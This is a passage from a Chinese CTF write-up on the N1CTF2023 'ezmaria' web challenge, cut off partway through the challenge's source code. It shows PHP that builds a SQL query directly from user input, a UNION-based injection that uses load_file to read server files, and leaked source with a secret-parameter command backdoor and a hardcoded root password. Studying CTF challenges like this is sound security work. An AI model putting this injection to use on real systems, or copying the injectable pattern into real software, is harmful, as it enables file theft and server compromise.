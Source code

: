 ```yaml
---
title: "N1CTF2023 ezmaria复现"
slug: "n1ctf2023-ezmaria"
description: "赛后复现"
date: 2023-10-27T20:16:43+08:00
categories: ["CTF"]
series: []
tags: ["wp", "MySQL"]
draft: false
toc: true
---
```


*一点都不simple啊啊啊啊

official environment: https://github.com/Nu1LCTF/n1ctf-2023/blob/main/web/ezmaria/

---

```php
$cmd = "select name, price from items where id = ".$_REQUEST["id"];
$result = mysqli_fetch_all($result);
$result = $result[0];
```

mysql，需要getshell & 提权

读源码

```
/?id=0 union select 1, load_file('/var/www/html/index.php')
# 因为有$result[0]的限制 初始先select一个空的 联合查询的内容就会成为[0]
```

```php
<?php

//for n1ctf ezmariadb secret cmd

if ($_REQUEST["secret"] === "lolita_love_you_forever"){
    header("Content-Type: text/plain");
    echo "\\n\\n`ps -ef` result\\n\\n";
    system("ps -ef");
    echo "\\n\\n`ls -l /` result\\n\\n";
    system("ls -l /");
    echo "\\n\\n`ls -l /var/www/html/` result\\n\\n";
    system("ls -l /var/www/html/");
    echo "\\n\\n`find /mysql` result\\n\\n";
    system("find /mysql");
    die("can you get shell?");
}


//lolita init db

$servername = "127.0.0.1";
$username = "root";
$password = "123456";
$dbn = "ctf";
//phpinfo();
//die();

// 创建连接
//$conn = new PDO("mysql:host=$servername;", $username, $password);
//aaa();
$err = "";
try {
```